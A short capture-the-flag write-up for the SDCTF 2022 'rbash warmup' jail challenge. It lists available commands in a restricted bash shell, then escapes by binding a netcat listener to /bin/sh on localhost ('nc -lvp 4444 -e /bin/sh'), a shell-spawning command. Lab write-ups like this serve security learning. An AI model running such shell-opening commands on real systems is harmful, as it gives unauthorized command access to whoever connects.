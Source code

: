 ```yaml
---
layout: load_md
title: The White Circle | Sdctf 2022 | rbash warmup Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Sdctf 2022
parent: sdctf_2022
category: jail
challenge: rbash warmup
tags: "jail, twh, rbash, escape"
date: 2022-05-10T00:00:00+00:00
last_update: 2022-05-10T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Sdctf 2022</h1>

## rbash warmup
> Solved By : thewhiteh4t

we can use `compgen` to check for available commands

```
compgen -c
```

![](https://i.imgur.com/bLD71b6.png)


another way is to use `echo`


![](https://i.imgur.com/chEZt6C.png)


now the known way of escaping with `nc` is by getting a shell on our “attacker” box but in this challenge we are not allowed to connect to remote machines so we are left with localhost

actually this is more easy…

```
nc -lvp 4444 -e /bin/sh &
```

![](https://i.imgur.com/DmtwlOo.png)


now we can connect to it !


![](https://i.imgur.com/JiBB1By.png)

